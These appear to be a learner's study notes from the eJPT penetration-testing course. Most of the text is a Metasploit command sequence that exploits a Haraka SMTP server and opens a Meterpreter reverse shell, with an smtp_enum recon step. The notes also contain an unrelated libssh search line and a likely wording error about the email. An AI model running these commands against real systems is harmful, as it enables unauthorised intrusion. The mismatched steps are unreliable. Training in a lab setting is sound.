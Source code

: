 eJPT uses for SMTP (mail server transfer protocol) the haraka tech.

To exploit it requires the following steps:

search libssh_auth_bypass
use exploit/linux/smtp/haraka
show options
set SRVPORT 9898
set email_to <valid email>
set payload linux/x64/meterpreter_reverse_http (non staged payload)
set LHOST <your ip>
set LPORT 8080
exploit

The course is fucking horrible in this regard, again they just give you random commands and no explanation.

The email needs to be failed or the exploit will fail, for this you need to do some recon with metasploit

-use auxiliary/scanner/smtp/smtp_enum

The port i got no clue why this in specific but using the same in eJPT is the way to go